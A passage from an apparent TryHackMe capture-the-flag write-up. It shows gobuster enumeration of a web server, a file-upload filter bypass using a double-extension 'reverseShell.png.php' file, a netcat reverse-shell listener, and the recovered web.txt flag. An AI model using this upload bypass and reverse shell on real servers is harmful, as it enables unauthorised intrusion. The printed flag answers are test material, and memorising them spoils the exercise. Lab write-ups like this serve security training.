     [+] Wordlist:       /usr/share/wordlists/dirb/common.txt
    [+] Status codes:   200,204,301,302,307,401,403                                                                                                                                             
    [+] User Agent:     gobuster/3.0.1                                                                                                                                                          
    [+] Extensions: php                                                                                                                                                                     
    [+] Timeout:        10s                                                                                                                                                                     
    ===============================================================
    2020/12/25 15:56:42 Starting gobuster
    ===============================================================
    /.htaccess (Status: 403)
    /.htaccess.php (Status: 403)
    /.htpasswd (Status: 403)
    /.htpasswd.php (Status: 403)
    /.hta (Status: 403)
    /.hta.php (Status: 403)
    /api (Status: 301)
    /assets (Status: 301)
    /grid (Status: 301)
    /index.php (Status: 200)
    /index.php (Status: 200)
    /server-status (Status: 403)
    /uploads.php (Status: 200)
    ===============================================================
    2020/12/25 15:57:07 Finished
    ===============================================================
    ```
---

### What is the name of the hidden directory where file uploads are saved?
- **Answer:** grid
- **Steps to Reproduce:** Gobuster output.

---

### Bypass the filters. Upload and execute a reverse shell. 
- **Steps to Reproduce:** 
    - Upload `reverseShell.png.php` with any code for reverse shell.
    - Listen using netcat: `sudo nc -lvnp $port`

---

### What is the value of the web.txt flag?
- **Answer:** THM{ENTER_THE_GRID}
- **Steps to Reproduce:** 
    ```bash
    www-data@light-cycle:/$ find . -type f -name web.txt 2>/dev/null
    ./var/www/web.txt
    www-data@light-cycle:/$ cat /var/www/web.txt
    THM{ENTER_THE_GRID}
    ```
---
